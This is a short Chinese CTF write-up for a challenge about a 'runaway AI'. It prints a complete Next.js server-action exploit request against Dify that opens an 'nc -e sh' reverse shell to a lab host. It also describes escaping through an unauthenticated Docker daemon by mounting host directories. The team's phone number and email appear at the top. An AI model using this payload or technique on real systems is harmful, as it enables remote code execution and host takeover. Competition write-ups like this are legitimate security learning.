




队伍名：All1n       联系电话：13459992459          联系邮箱：3046906637@qq.com

1、 题目名

解题思路、相关代码和Flag截图：

链上智体：失控的AI


nextjs 打 dify

```
POST /apps HTTP/1.1
Host: 192.168.18.3
Next-Action: x
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Length: 758

------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="0"

{
  "then": "$1:__proto__:then",
  "status": "resolved_model",
  "reason": -1,
  "value": "{\"then\":\"$B1337\"}",
  "_response": {
    "_prefix": "var res=process.mainModule.require('child_process').execSync('nc 192.168.18.1 5021 -e sh').toString().trim();;throw Object.assign(new Error('NEXT_REDIRECT'),{digest: `NEXT_REDIRECT;push;/login?a=${res};307;`});",
    "_chunks": "$Q2",
    "_formData": {
      "get": "$1:constructor:constructor"
    }
  }
}
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="1"

"$@0"
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="2"

[]
------WebKitFormBoundaryx8jO2oVc6SWP3Sad--
```

nc 弹一个 shell，拿到第一个 flag



2、 题目名

解题思路、相关代码和Flag截图：

链上智体：失控的AI


fscan 扫描一下



发现一个 docker daemon 未授权，启动一个 container 挂载一下目录，然后在容器里读到第二个 flag




